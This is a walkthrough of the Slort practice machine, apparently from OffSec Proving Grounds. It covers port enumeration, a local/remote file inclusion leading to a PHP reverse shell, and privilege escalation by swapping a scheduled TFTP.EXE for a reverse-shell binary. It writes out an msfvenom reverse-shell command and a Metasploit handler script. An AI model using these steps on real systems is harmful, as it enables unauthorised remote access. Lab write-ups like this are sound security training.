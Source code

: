 ### Slort Proving Ground Practice

### Difficulty = Intermediate

### IP Address = 

Nmap Scan:

```
└─$ nmap -sCV 192.168.126.53 -p21,135,139,445,3306,4443,5040,7680,8080 -oN nmapscan
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-28 01:16 WAT
Nmap scan report for 192.168.126.53
Host is up (0.16s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           FileZilla ftpd 0.9.41 beta
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3306/tcp open  mysql?
| fingerprint-strings: 
|   NULL, X11Probe: 
|_    Host '192.168.49.126' is not allowed to connect to this MariaDB server
4443/tcp open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.126.53:4443/dashboard/
5040/tcp open  unknown
7680/tcp open  pando-pub?
8080/tcp open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.126.53:8080/dashboard/
|_http-open-proxy: Proxy might be redirecting requests
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :                                    
SF-Port3306-TCP:V=7.92%I=7%D=2/28%Time=63FD47D4%P=x86_64-pc-linux-gnu%r(NU                              
SF:LL,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.126'\x20is\x20not\x20al                              
SF:lowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11Probe,                              
SF:4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.126'\x20is\x20not\x20allow                              
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");                                            
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows                                                
                                                                                                        
Host script results:                                                                                    
| smb2-security-mode:                                                                                   
|   3.1.1:                                                                                              
|_    Message signing enabled but not required                                                          
| smb2-time:                                                                                            
|   date: 2023-02-28T00:18:15                                                                           
|_  start_date: N/A                                                                                     
                                                                                                        
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .          
Nmap done: 1 IP address (1 host up) scanned in 134.11 seconds  
```

From the scan we see that various ports are open

I'll start enumeration from port 21 which is ftp

### FTP Enumeration

Attempting to connect to with anonymously doesn't work

```
└─$ ftp 192.168.126.53
Connected to 192.168.126.53.
220-FileZilla Server version 0.9.41 beta
220-written by Tim Kosse (Tim.Kosse@gmx.de)
220 Please visit http://sourceforge.net/projects/filezilla/
Name (192.168.126.53:mark): anonymous
331 Password required for anonymous
Password: 
530 Login or password incorrect!
ftp: Login failed
ftp> 
```

Lets move on 

#### SMB Enumeration

It doesn't allow anonymous listing of shares

```
└─$ smbclient -L 192.168.126.53 
Password for [WORKGROUP\mark]:
session setup failed: NT_STATUS_ACCESS_DENIED
```

#### MYSQl Enumeration

Attempting to login with default cred doesn't work cause we my host ip isn't allowed to connect to the mysql service  

```
└─$ mysql -u root -h 192.168.126.53 -p
Enter password: 
ERROR 1130 (HY000): Host '192.168.49.126' is not allowed to connect to this MariaDB server

```

#### Web Server Enumeration (4443 & 8080)

Heading over to the web page shows the default xampp web page for both port 4443 and 8080
![image](https://user-images.githubusercontent.com/113513376/221719866-ef9aef43-19bb-427e-8340-effa4ffe49e3.png)
![image](https://user-images.githubusercontent.com/113513376/221719802-22fefa7b-32b5-4bad-a6fd-5d87aaf542df.png)

When i tried accessing phpmyadmin i get an error
![image](https://user-images.githubusercontent.com/113513376/221720508-2b38f8bd-3889-4a7f-9c14-baf4f93ab5b6.png)

But on checking phpinfo it works 
![image](https://user-images.githubusercontent.com/113513376/221720573-47ba24af-6125-4399-80d5-afd76058c5e1.png)

Reading it shows it allows urlfopen meaning we can include remote files 
![image](https://user-images.githubusercontent.com/113513376/221720644-5a8639a2-47c0-4933-9bd1-d42ae39f3e56.png)

We also know know that there's a user on the box called rupert
![image](https://user-images.githubusercontent.com/113513376/221720821-7c5b9862-3e76-4387-80c4-96b05cd1ba12.png)

I'll run gobuster on each of the web service running on both ports
![image](https://user-images.githubusercontent.com/113513376/221721532-057a479e-60de-40a2-9e0e-bda01237398c.png)
![image](https://user-images.githubusercontent.com/113513376/221721592-f94382fe-9d8e-438f-b314-30870026642e.png)

Looking at the url it shows that its including the main.php file

So this is a local file inclusion vulnerability 

We can confirm by reading the windows /etc/hosts file located at `C:\windows\system32\drivers\etc\hosts`
![image](https://user-images.githubusercontent.com/113513376/221722344-39692f4c-6ff6-4fdd-875c-0618255c41a3.png)
![image](https://user-images.githubusercontent.com/113513376/221722392-47251b32-2aed-4b78-95b6-84932e8630b8.png)

If you remember from reading the phpinfo file we know that urlfopen is enabled 

With this we can include remote files via the LFI

#### Exploitation

First i'll save a php reverse shell gotten from [revshells](https://www.revshells.com/)

Then after that i'll set a listener on port 8080 and a web server on port 80
![image](https://user-images.githubusercontent.com/113513376/221723291-a28baf70-2f98-406c-8580-c5b973b44d2c.png)

Now i can include the shell.php on the web server which will then be executed
![image](https://user-images.githubusercontent.com/113513376/221723578-b4b0a2a8-e176-4df1-9859-a3ae8ae422bc.png)

Back on the listener i get a connection back
![image](https://user-images.githubusercontent.com/113513376/221723627-3790cb3a-e003-48ef-bc8b-06c24f82836c.png)

Now lets get root 

Checking the C:\ directory shows a backup directory
![image](https://user-images.githubusercontent.com/113513376/221724049-5b6ee9c3-2498-4d17-a1a3-80b638fdbb02.png)

And what the info.txt says is that there will be a cron which will run every 5 minutes

```
C:\Backup>more info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt

C:\Backup>
```

On checking the permission we have over that directory shows that we have full access 

```
C:\Backup>icacls .
. BUILTIN\Users:(OI)(CI)(F)
  BUILTIN\Administrators:(I)(OI)(CI)(F)
  NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
  BUILTIN\Users:(I)(OI)(CI)(RX)
  NT AUTHORITY\Authenticated Users:(I)(M)
  NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)

Successfully processed 1 files; Failed processing 0 files

C:\Backup>
```

Now lets replace the TFTP.exe to a reverse shell binary

Using msfvenom i'll create the binary (I'm having issue with msfvenom if i don't use bundler exec to run it xD)

```
Payload: msfvenom -p windows/x64/reverse_tcp LHOST=tun0 LPORT=4443 -f exe -o TFTP.exe
```

After that i will then upload it to the target and replace it with the orginal TFTP binary and wait for the reverse shell
![image](https://user-images.githubusercontent.com/113513376/221725185-ba7e9ed1-d354-45ba-9b21-61f8b713ed2d.png)

I will use metasploit to receive the shell

```
┌──(mark㉿haxor)-[~/…/B2B/Pg/Practice/Slort]
└─$ cat payload.rc  
use multi/handler
set payload windows/meterpreter/reverse_tcp 
set lhost tun0
set lport 4443
exploit

                                                                                                                         
┌──(mark㉿haxor)-[~/…/B2B/Pg/Practice/Slort]
└─$ msfconsole -r payload.rc
                                                  

         .                                         .
 .

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP                                               
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP                                                
                                                                                                                         
                                                                    .                                                    
                .                                                                                                        
        o                  To boldly go where no                                                                         
                            shell has gone before                                                                        
                                                                                                                         

       =[ metasploit v6.2.9-dev                           ]
+ -- --=[ 2229 exploits - 1177 auxiliary - 398 post       ]
+ -- --=[ 867 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Enable HTTP request and response logging 
with set HttpTrace true

[*] Processing payload.rc for ERB directives.
resource (payload.rc)> use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (payload.rc)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (payload.rc)> set lhost tun0
lhost => tun0
resource (payload.rc)> set lport 4443
lport => 4443
resource (payload.rc)> exploit
[*] Started reverse TCP handler on 192.168.49.126:4443 
```

But i waited and notice it isn't working 

Likely cause of firewall outbound connection on the port i used

So i redid the same process again but this time used port 8080 and after replacing the binary back it worked
![image](https://user-images.githubusercontent.com/113513376/221727216-98d549dc-b943-4ca1-a23f-953d22980fbd.png)

And we're done
<br> <br>
[Back To Home](../../index.md)

